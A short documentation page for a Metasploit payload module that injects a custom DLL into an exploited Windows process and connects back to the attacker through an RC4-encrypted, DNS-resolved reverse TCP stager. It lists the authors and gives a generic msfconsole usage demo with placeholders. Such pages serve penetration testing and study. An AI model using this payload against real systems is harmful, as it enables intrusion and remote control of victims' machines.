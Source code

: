 ## Windows Inject DLL, Reverse TCP Stager (RC4 Stage Encryption DNS)

Inject a custom DLL into the exploited process. Connect back 
to the attacker


## Module Name
payload/windows/patchupdllinject/reverse_tcp_rc4_dns

## Authors
* jt <jt@klake.org>
* skape
* hdm
* sf
* mihi
* RageLtMan





## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/patchupdllinject/reverse_tcp_rc4_dns
msf payload(reverse_tcp_rc4_dns) > show targets
   ... a list of targets ...
msf payload(reverse_tcp_rc4_dns) > set TARGET <target-id>
msf payload(reverse_tcp_rc4_dns) > show options
   ... show and set options ...
msf payload(reverse_tcp_rc4_dns) > run
```
    
    